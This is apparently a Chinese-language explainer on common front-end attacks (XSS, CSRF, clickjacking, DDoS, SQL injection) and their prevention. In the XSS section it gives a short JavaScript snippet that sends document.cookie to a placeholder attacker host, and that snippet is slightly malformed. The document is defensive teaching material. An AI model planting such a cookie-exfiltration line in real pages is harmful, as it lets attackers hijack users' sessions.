


# 前端攻击手段有哪些该如何预防？

## 1. XSS

Cross Site Script 跨站脚本攻击。

- 手段：黑客将 JS 代码插入到网页内容中，渲染时执行 JS 代码。
- 预防：特殊字符替换。

```javascript
let img = document.createElement("image");
img.src = 'http://xxx/api?cookie' + document.cookie;
// img 元素一旦附上 src 属性就会发送 http 请求，这时候就把本网站的 cookie 传到了黑客自己的服务器了
```

预防就是将特殊符号替换，比如将 `>` 替换成 `&gt;`，`<` 替换成 `&lt;` ，这样 `<script>` 标签里面的危险代码就不会执行了。

Vue、Angular 中插值表达式（{{}}）和 React 中变量（{}），默认屏蔽了 XSS 攻击，即便在里面写脚本也不会发生 XSS 攻击。除了这几种情况：

- 在 Vue `v-html` 中使用脚本
- 在 React `dangerouslySetInnerHTML` 中使用脚本
- 在 Angular `InnerHTML` 中使用脚本

## 2. CSRF

Cross Site Request Forgery 跨站请求伪造。

- 手段：黑客诱导用户去访问另一个网站的接口，伪造请求。
- 预防：严格的跨域限制，加验证码机制。

### 2.1. CSRF 详细过程

- 用户登录了 A 网站，有了 cookie。
- 黑客诱导用户进入了 B 网站，并发起了 A 网站的请求。
- A 网站的用户发现 API 有 cookie，认为是用户自己操作的。

### 2.2. 预防手段

- 严格的跨域请求限制，如 referrer （请求来源） 。
- 为 cookie 设置 SameSite, 禁止跨域传递 cookie。
- 关键接口加上短信验证码。

## 3. 点击劫持

Click Jacking

- 手段：界面上蒙一个透明的 iframe，诱导用户点击。
- 预防：让 iframe 不能跨域加载。




## 4. DDos

Distribute denial-of-service 分布式拒绝服务。

- 手段：分布式、大规模的流量访问，使服务器瘫痪。
- 预防：软件层不好做，需要硬件预防。

比如黑客散播了一个病毒程序，植入很多人的手机，使这些人的手机同时去访问某一网站，致使服务瘫痪。

## 5. SQL 注入

- 手段：黑客提交内容时写入 SQL 语句，破环数据库。
- 预防：处理特殊字符，替换特殊字符。
